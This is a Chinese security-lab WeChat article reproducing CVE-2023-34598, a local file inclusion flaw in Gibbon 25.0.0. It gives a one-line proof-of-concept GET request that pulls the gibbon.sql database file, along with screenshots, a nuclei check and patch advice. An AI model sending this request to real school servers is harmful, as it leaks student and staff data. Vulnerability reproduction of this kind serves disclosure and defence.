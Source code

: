 #  Gibbon文件包含漏洞(CVE-2023-34598)

弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180026.png)  
 **0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180026.png)  
 **0x01漏洞介绍**  
  

Gibbon是一个解决教育工作者每天遇到的实际问题的学校平台。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180028.png)

Gibbon 25.0.0版本存在安全漏洞，该漏洞源于存在本地文件包含漏洞。攻击者可利用该漏洞在服务器响应中包含本地文件。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180026.png)  
 **0x02影响版本**  
  

Gibbon 25.0.0版本存在安全漏洞

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180030.png)

  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180026.png)  
 **0x03漏洞复现**  
  

1.访问漏洞环境

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180031.png)

2.对漏洞进行复现

 **  POC （GET）**

  * 

    
    
     /?q=./gibbon.sql

漏洞复现

         GET请求，响应存在漏洞

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180032.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180033.png)

3.nuclei测试（漏洞存在）

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180035.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180026.png)  
 **0x04修复建议**  
  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  * 

    
    
    https://gibbonedu.org/

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180037.png)

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180038.png)

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

